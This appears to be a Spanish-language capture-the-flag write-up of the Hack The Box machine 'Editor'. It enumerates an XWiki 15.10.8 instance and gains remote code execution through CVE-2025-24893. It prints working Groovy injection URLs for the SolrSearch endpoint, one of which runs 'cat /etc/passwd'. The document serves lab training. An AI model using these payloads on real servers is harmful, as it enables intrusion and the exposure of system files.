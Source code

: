 agregamos el dominio reportado por `nmap` a `/etc/hosts`

```bash
echo '10.10.11.80 editor.htb' >> /etc/hosts
```

accedemos a servicio web

<img width="1920" height="1055" alt="image" src="https://github.com/user-attachments/assets/557ef8c3-71b9-43f1-bdc5-42f4c89c39b6" />

y ahora accedemos al puerto `8080`


<img width="1920" height="1010" alt="image" src="https://github.com/user-attachments/assets/3dbf8037-39ea-440c-9953-e2339b581eda" />

observamos al final informacion de posible interes `XWiki Debian 15.10.8 ` asi que buscamos informacion en la web y conseguimos un exploit para obtener `rce`

<img width="1920" height="1010" alt="image" src="https://github.com/user-attachments/assets/e05f7897-58ec-4b82-bcdc-104844e6ee44" />

>>> Version vulnerable al CVE-2025-24893

Testeo el exploit pero al parecer no me funciona asi que continuo buscando informacion sobre el `CVE-2025-24893` directamente y obtengo esto

<img width="1920" height="1010" alt="image" src="https://github.com/user-attachments/assets/71dccddb-3bf1-45da-a989-7f83f3d62758" />

asi que testeamos de forma manual a ver si nos funciona por lo que accedemos al siguiente link

```bash
http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=}}}{{async%20async%3Dfalse}}{{groovy}}println(%22Hello%20from%22%20%2B%20%22%20search%20text%3A%22%20%2B%20(23%20%2B%2019)){{%2Fgroovy}}{{%2Fasync}}%20
```
<img width="1920" height="1055" alt="image" src="https://github.com/user-attachments/assets/4a85107b-50e9-4101-8250-72e0befe8cd8" />

parece ser que da error asi que vamos a testear con el payload del exploit que conseguimos antes

```bash
http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22cat%20%2Fetc%2Fpasswd%22.execute%28%29.text%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D
```
>>> Al acceder al link lo que hace es descargar un archivo
                                                                        
<img width="1920" height="1055" alt="image" src="https://github.com/user-attachments/assets/5ec60377-074a-4666-b836-86ce5d5684e3" />
 
>>> Chequeamos el archivo

<img width="1920" height="1055" alt="image" src="https://github.com/user-attachments/assets/035bcd46-c117-460d-b6f6-61334a48f824" />

se a ejecutado el comando `cat /etc/passwd`, pero tras un largo tiempo intentando obtener una revershell no lo logre asi que continue buscando informacion de `xwiki` en cuanto a sus archivos de configuracion


<img width="1920" height="952" alt="image" src="https://github.com/user-attachments/assets/f7f66cf4-149d-496d-9ce4-71beaf4f0413" />

